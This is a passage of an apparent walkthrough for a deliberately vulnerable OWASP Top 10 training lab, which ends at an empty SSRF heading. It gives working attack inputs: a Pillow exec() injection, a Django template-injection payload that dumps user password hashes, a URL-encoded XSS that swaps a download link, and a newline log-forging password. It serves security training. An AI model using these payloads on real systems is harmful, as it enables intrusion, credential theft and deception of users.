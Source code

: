 ``` INFO "GET /a10_lab?username=Hacker&password=Hacker HTTP/1.1" 301 0 ```
   - after some guessing we got "admin|2022-07-07 06:24:08.802299" is the admin cookie , which gives us admin access.
   - ![image](https://user-images.githubusercontent.com/75058161/177698238-b564faa9-7a98-4333-8498-0069c41a85d1.png)
#
## 2021-A6:Using Components with Known Vulnerabilities

**lab-2**
- Given an utility to apply some math expression on an image
- ![image](https://user-images.githubusercontent.com/75058161/178036849-aae96b02-9633-47e5-a605-0a07ffb17919.png)
- From the lab descripting we found this module uses pillow 8
- After some OSINT and dorking
- ![image](https://user-images.githubusercontent.com/75058161/178037399-7ac55275-6af8-45d6-a0da-e679a2744cd8.png)
- Let's try `exec(exit())`
- ![image](https://user-images.githubusercontent.com/75058161/178037554-e8935a19-538d-41ae-9a1e-59d31e50c080.png)
- ![image](https://user-images.githubusercontent.com/75058161/178037626-4925debd-5c96-4e10-83b8-267df7199488.png)
- Successfully triggerd a server error.




### 2021-A3:Server side Template Injection

`{% load log %}
{% get_admin_log 5 as log %}
{% for e in log %}
    {{e.user.get_username}} : {{e.user.password}}
{% endfor %}`

add a post which includes this content

The result would look like this -->
![Screenshot from 2022-06-10 21-04-29](https://user-images.githubusercontent.com/75058161/173106213-9e218e81-d4b2-4447-9570-4aa8de3dea88.png)

### 2021-A8: Software and Data Integrity failure
This data is a demonstration that how an XSS attack can deceive users to download any malicious file. The lab consists of a page to download a file, and a direct link to that page is also given (from a hacker). Let's download both files and compare the hash before opening that.
![image](https://user-images.githubusercontent.com/75058161/190912308-1d26fb2e-2c6c-4c67-bf2a-9bb0f4abbfd0.png)
So as we can see the hashes don't match. So as a user we should always cross-check signatures for verification of Data Integrity.

More more information about the attack itself you can look into the url -->
```http://127.0.0.1:8000/2021/A8/lab2?username=user+%3Cscript%3Edocument.getElementById%28%22download_link%22%29.setAttribute%28%22href%22%2C%22%2Fstatic%2Ffake.txt%22%29%3B%3C%2Fscript%3Euser+%3Cscript%3Edocument.getElementById%28%22download_link%22%29.setAttribute%28%22href%22%2C%22%2Fstatic%2Ffake.txt%22%29%3B%3C%2Fscript%3E```
It have a file url and XXS attack to replace the actual file url.

### 2021-A9: Insufficient Logging & Monitoring
This lab have active logging and have a login page ( we don't have credential )
So every fake entry is logged so the user name is printed in the file itself..
```ERROR:root:2022-07-04 07:21:50.906938:127.0.0.1:User1:Hash1```
this is a sample hash ..
So we can Enter user name anything and password = ```pass\nERROR:root:2022-07-04 07:21:50.906938:127.0.0.1:User1:Hash1```
It will create one fake log and also it can cause log overflow also by passing lots of data in injection.

### 2021:A10 : SSRF lab2
```
